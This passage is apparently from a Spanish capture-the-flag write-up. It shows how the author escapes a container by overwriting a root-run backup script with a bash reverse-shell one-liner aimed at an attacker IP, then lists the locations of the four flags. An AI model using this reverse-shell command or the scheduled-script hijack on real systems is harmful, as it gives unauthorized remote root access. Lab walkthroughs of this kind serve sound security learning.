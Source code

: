 - Como vemos, lo que hace la script es realizar una copia de seguridad de todo el contenido que se encuentra en "/root/container" en un archivo comprimido "backup.tar" que es justo el que habíamos encontrado en este mismo directorio.

- Como se trata de una copia de seguridad, deducimos que es una `script` que se va a ejecutar indefinididamente en patrones de tiempo determinados, así que, como somos root, modificamos el contenido de la script para que nos mande una reverse shell, ya que por lógica, la que ejecuta esta script es la máquina víctima real (pues está haciendo una copia de seguridad de su contenedor):


```bash
$echo "#! /bin/bash" > backup.sh
$echo "bash -c 'bash -i >& /dev/tcp/10.18.101.123/123 0>&1'" >> backup.sh 
```


- Después de unos minutos en escucha, bbtenemos ahora sí una shell como `root` en la máquina víctima real y podremos leer las `4 flags` que hay en el sistema:

Flag 1: `/var/www/html`


Flag 2: `/var/www`


Flag 3: `/root`  (contenedor)


Flag 4: `/root` (Máquina real)

